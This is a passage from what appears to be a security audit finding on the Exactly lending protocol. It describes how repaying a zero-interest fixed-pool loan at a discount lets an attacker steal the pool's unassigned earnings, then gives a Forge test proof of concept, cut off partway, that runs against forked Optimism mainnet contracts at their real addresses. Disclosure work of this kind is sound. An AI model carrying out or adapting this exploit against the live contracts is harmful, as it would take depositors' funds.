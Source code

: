 When the attacker repays this loan with no interest, he's going to get a discount based on the current unassigned earnings of that pool. This discount will make the attacker repay less funds than he originally borrowed, and those funds will be subtracted from the unassigned earnings of that pool.

## Impact

An attacker can steal the unassigned earnings from a fixed pool. 

## PoC

The following PoC executes this attack on the live contracts of Exactly in the Optimism chain. The test can be pasted into a new file within a forge environment. Also, the `.env` file must include the variable `OPTIMISM_RPC_URL` for the test to run. The test can be executed with the following command:

```solidity
forge test --match-test test_steal_unassigned_earnings --evm-version cancun
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Market} from "protocol/contracts/Market.sol";
import {FixedLib} from "protocol/contracts/utils/FixedLib.sol";
import {Test} from "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract TestMarket is Test {
    Market marketUSDC = Market(0x81C9A7B55A4df39A9B7B5F781ec0e53539694873);
    Market marketWBTC = Market(0x6f748FD65d7c71949BA6641B3248C4C191F3b322);

    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);
    IERC20 wbtc = IERC20(0x68f180fcCe6836688e9084f035309E29Bf0A2095);

    uint256 public optimismFork;
    string OPTIMISM_RPC_URL = vm.envString("OPTIMISM_RPC_URL");

    function setUp() public {
        optimismFork = vm.createSelectFork(OPTIMISM_RPC_URL);
        assertEq(optimismFork, vm.activeFork());
    }

    function test_steal_unassigned_earnings() public {
        vm.rollFork(119348257); // Abr 28
        uint256 maturity = 1722470400; // Aug 01
        uint256 liquidity = 100_000e6;
        uint256 borrowAmount = 1e8;

        // Simulate some fixed rate borrows on the WBTC market
        deal(address(usdc), address(this), liquidity);
        usdc.approve(address(marketUSDC), liquidity);
        marketUSDC.deposit(liquidity, address(this));
        marketUSDC.auditor().enterMarket(marketUSDC);
        marketWBTC.borrowAtMaturity(
            maturity,
            borrowAmount,
            type(uint256).max,
            address(this),
            address(this)
        );
```